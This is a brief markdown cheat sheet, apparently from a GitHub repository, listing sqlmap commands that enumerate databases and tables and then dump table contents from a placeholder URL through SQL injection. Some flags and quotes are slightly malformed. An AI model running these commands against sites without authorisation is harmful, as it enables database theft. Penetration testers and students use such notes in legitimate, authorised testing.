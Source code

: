 ### SQLMAP
1. Login to root
2. Type "sqlmap -u _url_ -dbs
#### After Getting Database
Type "sqlmap -u _url_ -D _database_ --tables
#### After Getting Tables
Type "sqlmap -u _url_ -D _database_ -T _tables_ -dump